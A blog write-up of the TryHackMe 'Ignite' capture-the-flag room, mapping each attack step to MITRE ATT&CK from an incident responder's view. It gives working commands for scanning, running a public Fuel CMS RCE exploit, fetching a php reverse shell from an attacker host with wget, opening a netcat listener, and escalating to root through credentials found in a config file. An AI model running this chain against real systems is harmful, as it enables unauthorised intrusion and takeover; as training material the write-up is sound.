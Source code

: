 ```yaml
---
title: "TryHackMe - Ignite"
categories:
  - Blog
tags:
  - TryHackMe
  - CTF
  - Training
  - MITRE ATT&CK
toc: true
toc_sticky: true
---
```


This is a write-up for the [Ignite room on TryHackMe](https://tryhackme.com/room/ignite). The format of this write-up will be from the perspective of an incident responder. I will use the MITRE ATT&CK framework to map the TTPs used during the attack.

# Overview
<a href="/projectpage/assets/images/ignite-nav-layer.png"><img src="/projectpage/assets/images/ignite-nav-layer.png"></a>

# Reconnaissance
Active scanning was used extensively during the reconnaissance phase. Specifically the following sub-techniques were employed:

1. Scanning IP Blocks[(T1595.001)](https://attack.mitre.org/techniques/T1595/001/)
2. Wordlist Scanning[(T1595.003)](https://attack.mitre.org/techniques/T1595/003/)

Additionally, the attacker searched the victim-owned website[(T1594)](https://attack.mitre.org/techniques/T1594/) to gather information which would prove useful for gaining initial access.

## Active Scanning: Scanning IP Blocks
The attacker performed a scan of the target IP using Nmap:

`$ nmap -sV <TARGET IP> -p-`

Results of this scan revealed:

|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|80/tcp|open|http|Apache httpd 2.4.18 ((Ubuntu))

## Active Scanning: Wordlist Scanning
Following the discovery of the target's http service, the attacker used Feroxbuster and a wordlist, to enumerate the target's directories or files:

 `$ feroxbuster -u http://<TARGET IP> -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt`

 Results of this scan revealed:

 `http://<TARGET IP>/fuel`

## Search Victim-Owned Website
This lead the attacker to access the target IP address through a web browser. A simple walk through of the target via browser would reveal the default landing page for "Fuel CMS," which contains the version number in use, 1.4. Navigating to `http://<TARGET IP>/fuel` would reveal a login form for the website.

# Resource Development
The attacker's technique at this phase was to obtain capabilites, leveraging the information gathered in the reconnaissance phase. Specifically the sub-technique used here was Obtain Capabilities: Exploits[(T1588.005)](https://attack.mitre.org/techniques/T1588/005/).

## Obtain Capabilities: Exploits
Using an opensource tool such as Searchsploit:

`$ searchsploit fuel cms`

would reveal the following exploit:

[Fuel CMS 1.4.1 - Remote Code Execution](https://www.exploit-db.com/exploits/50477)

This is a python script which exploits a vulnerability in Fuel CMS version 1.4.1.

The second exploit obtained was a php reverse shell. These are easily available from sources such as [Reverse Shell Generator](https://www.revshells.com/).

# Initial Access
The technique used for initial access was to exploit the public-facing application[(T1190)](https://attack.mitre.org/techniques/T1190/).

Additionally, it should be highlighted that the sub-technique of a valid local account was utilized:
- Valid Accounts: Local Accounts[(T1078.003)](https://attack.mitre.org/techniques/T1078/003/)

## Exploit Public-Facing Application
By running the python script found earlier, the attacker would gain the ability to execute arbitrary code on the web server:

`$ python3 /usr/share/exploitdb/exploits/php/webapps/50477.py -u http://<TARGET IP>`

This resulted in the attacker gaining access to a simple command line on the web server, with the "www-data" account.

# Persistence
Following the initial access the attacker established persistence, by uploading the php webshell to the target. This highlights the sub-technique:

- Server Software Component: Webshell[(T1505.003)](https://attack.mitre.org/techniques/T1505/003/)

## Server Software Component: Webshell
In a separate terminal on their local machine, the attacker started a python http server over port 8888:

`$ python3 -m http.server 8888`

Then, the attacker executed the following on the target:

`$ wget http://<ATTACKER IP>:8888/shell.php`

In order to execute the webshell, the attacker used NetCat to listen on the port defined in `shell.php`, 9001:

`$ nc -lvnp 9001`

Then executed the shell on the target by accessing `http://<TARGET IP>/shell.php` in their browser. The attacker now has a method for persistent access to the "www-data" account.

# Credential Access
The attacker used another open source tool to explore the possibilities for privilege escalation, linPEAS. The sub-technique which would prove fruitful would be:
- Unsecured Credentials: Credentials In Files[(T1552.001)](https://attack.mitre.org/techniques/T1552/001/)

## Unsecured Credentials: Credentials In Files
First, the attacker ran the following to upgrade their shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`

The attacker then executed the following commands on the target:

`$ cd /tmp`
`$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`

After the script was downloaded, the attacker made it executable, and then executed it:

`$ chmod +x linpeas_linux_amd64`
`$ ./linpeas_linux_amd64`

LinPEAS found `/var/www/html/fuel/application/config/database.php` to contain passwords.

The attacker used `cat` to view the contents of this file and found valid credentials for the "root" user in plaintext.

# Privilege Escalation
Now that the attacker has credentials for the "root" user they were able to escalate their privileges

Once again, this highlights the sub-technique:
- Valid Accounts: Local Accounts[(T1078.003)](https://attack.mitre.org/techniques/T1078/003/)

The attacker executed the following on the target:

`$ su`

After entering the password the attacker successfuly obtained a shell as the "root" user.

# Collection
Following the full comprimise of the system, the attacker pivoted to collection.
The technique used in this phase was data from local system[(T1005)](https://attack.mitre.org/techniques/T1005/).

## Data from Local System
The attacker made use of basic command line tools, like `cd`, `ls`, and `cat` to examine the files on the system. Eventually the attacker found the files `flag.txt` and `root.text`.
